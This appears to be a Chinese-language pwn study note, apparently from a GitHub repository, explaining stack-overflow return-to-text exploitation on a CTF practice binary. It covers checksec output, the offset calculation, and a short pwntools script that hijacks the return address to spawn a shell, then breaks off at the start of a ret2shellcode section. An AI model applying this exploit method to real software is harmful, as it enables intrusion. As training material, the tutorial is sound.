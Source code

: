 简介：

控制程序执行程序本身已有的代码。

核心

确定我们能够控制的内存的起始地址距离 main 函数的返回地址的字节数。

样例

分析 ret2text：

checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

打开IDA分析

发现gets函数存在栈溢出的可能，在`secure()`函数中发现了`system("/bin/sh");`这一指令。

查看汇编指令及相应的内存地址，我们我们需要将返回值返回到这里就可以了。

将断点下在 `0x080486AE` 并进行调试。

此时 `$esp` 的值为 `0xffffcde0` ，`$ebp` 的值为 `0xffffce68 ` 。由IDA的反汇编知字符串 `s` 相对于 `$esp` 的偏移为 `0x1c` ，所以 `s` 的地址为 `0xffffcdfc` 。所以 `s` 相对 `$ebp` 的偏移为 `0x6c` ，相对于返回地址的偏移为`0x6c+4=0x70` 。则可以构造出 payload:

```python
import pwn
p = pwn.process('./ret2text')
sh_addr = 0x0804863A
p.sendline('a'*(0x6c+4)+pwn.p32(sh_addr))
p.interactive()
```

这样就可以拿到shell了。

### ret2shellcode

简介：

控制程序执行 shellcode代码

核心：

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

样例

首先 `checksec`

```bash
[*] '/mnt/f/github/pwn-study/Linux-pwn/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
